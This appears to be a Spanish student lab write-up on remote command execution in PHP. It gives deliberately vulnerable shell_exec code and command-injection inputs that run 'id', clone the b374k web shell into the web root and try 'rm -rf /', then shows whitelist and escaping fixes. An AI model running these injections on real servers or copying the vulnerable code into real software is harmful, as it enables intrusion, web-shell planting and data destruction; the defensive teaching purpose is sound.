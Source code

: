 # PPS-Unidad3Actividad7-Aaron

## Código vulnerable

He creado un fichero **rce.php**  dentro de mi máquina vulnerable:

```php
<?php
if (isset($_POST['ip'])) {
        $ip = $_POST['ip'];
        // Ejecutar el ping y capturar la salida
        $output = shell_exec("ping -c 4 " . $ip);
        echo $output;
}
?>
<form method="post">
        <input type="text" name="ip" placeholder="Ejemplo: 8.8.8.8" required>
        <button type="submit">Hacer Ping</button>
</form>
```

Este código crea un campo de texto y un botón con php en el que podemos introducir contenido sin que sea filtrado, en caso de que introduzcamos una dirección ip. nos muestra el intercambio de paquetes.
(valor del campo: 8.8.8.8)

![](imagenes/ping1.png)

Para explotarlo voy a concatenear otro comando detrás de la dirección ip con ; para que lo ejecute a continuación del ping.
(valor del campo: 8.8.8.8;id)

![](imagenes/ping2.png)

### Descargar contenido

Primero en la máquina vulnerable le he dado permisos 777 al directorio **/var/www/html**.

![](imagenes/clone1.png)

Si ejecutamos un clonado de git concatenado a la ip del ping del campo vulnerable nos hace un clonado correctamente

```bash
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```

![](imagenes/clone2.png)

Al acceder a la siguiente ruta:

```bash
http://localhost/b374k/index.php
```

Muestra el index del repositorio clonado

![](imagenes/clone3.png)

## Mitigaciones

Para las mitigaciones voy a usar unos campos completamente distingos al del ping anterior.

Cambiar el contenido de **rce.php**:

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
```

Por otro lado tenemos el *rce.html**:

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Ejecutar Comando</title>
</head>
<body>
    <h2>Ingrese el comando a ejecutar</h2>
    <form method="get" action="http://localhost/rce.php">
        <input type="text" name="cmd" placeholder="Ejemplo: whoami" required>
        <button type="submit">Ejecutar</button>
    </form>
</body>
</html>
```

Este *HTML*, lo que hace es llamar al **rce.php** que hemos guardado anteriormente.

![](imagenes/mitiganciones1.png)

### Eliminar el uso de shell_exec()

Lo primero para mitigar es cambiar el **rce.php** por este nuevo:

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

```php
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
```

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

```php
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".
Ejemplo de pwd:

![](imagenes/mitigaciones2.png)

Sin embargo, comandos no permitido:

![](imagenes/mitigaciones3.png)

### Ejecutar Comandos con Escapes Seguros

Si se necesita ejecutar comandos con argumentos, usar escapeshellcmd() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

```php
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
```
Si ejecuto ahora este comando

```bash
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
```

![](imagenes/mitigaciones4.png)

Deshabilitar shell_exec() en PHP

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.

Editar php.ini, para ello utilizamos el editor de texto nano (o el que prefiramos) para abrir la configuración de PHP de nuestro contenedor.

```bash
docker exec -it lamp-php83 /bin/bash
```

Editando el php.ini de la máquina vulnerable y agregando esta línea al final:

![](imagenes/mitigaciones5.php)

## PRUEBA FINAL

Acceder a:

```
http://localhost/rce.php?cmd=id
```
Si la mitigación funciona, se debería ver el mensaje "Comando no permitido." en pantalla. o en el caso de que utilizamos el entorno de pruebas, el error php.

![](imagenes/mitigaciones6.png)
